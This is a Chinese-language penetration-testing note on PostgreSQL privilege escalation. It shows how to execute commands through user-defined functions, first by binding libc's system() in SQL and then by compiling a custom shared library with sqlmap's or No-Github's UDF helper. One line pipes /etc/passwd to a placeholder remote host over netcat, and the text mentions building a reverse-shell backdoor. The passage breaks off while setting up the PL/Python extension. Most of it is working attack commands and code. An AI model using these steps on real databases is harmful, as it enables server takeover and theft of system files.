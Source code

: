 # PostgreSQL 提权

## 利用 UDF 命令执行

在 8.2 以前,postgresql 不验证 magic block,可以直接调用本地的 libc.so
```sql
CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE 'c' STRICT;
SELECT system('cat /etc/passwd | nc xxx.xx.xx.xx');
```

8.2 以上版本,需要自己编译 so 文件去创建执行命令函数，可以自己编译反弹 shell 后门，也可以用 sqlmap 提供好的
- https://github.com/sqlmapproject/sqlmap/tree/master/data/udf/postgresql

可以参考 [No-Github/postgresql_udf_help](https://github.com/No-Github/postgresql_udf_help)

```bash
# 找相应的 dev 扩展包
apt-get search postgresql-server-dev
# 安装 dev 扩展包
apt-get install postgresql-server-dev-11
# apt install postgresql-server-dev-all

# 编译好 .so 文件
git clone https://github.com/No-Github/postgresql_udf_help
cd postgresql_udf_help
gcc -Wall -I/usr/include/postgresql/11/server -Os -shared lib_postgresqludf_sys.c -fPIC -o lib_postgresqludf_sys.so
strip -sx lib_postgresqludf_sys.so

# 生成分片后的 sql 语句
cat lib_postgresqludf_sys.so | xxd -ps | tr -d "\n" > 1.txt
python2 postgresql_udf_help.py 1.txt > sqlcmd.txt
```

![](../../img/postgresql-pentest/4.png)

## PL/Python 扩展

PostgreSQL 可以支持多种存储过程语言，官方支持的除了 PL/pgSQL，还有 TCL，Perl，Python 等。

默认 PostgreSQL 不会安装 Python 的扩展,这里我手动在靶机上安装下进行复现
```sql
select version();
```

先看下版本, pg 14

![](../../img/postgresql-pentest/24.png)

搜索下有没有对应的 plpython3u 版本安装

```bash
apt search postgresql-plpython
```
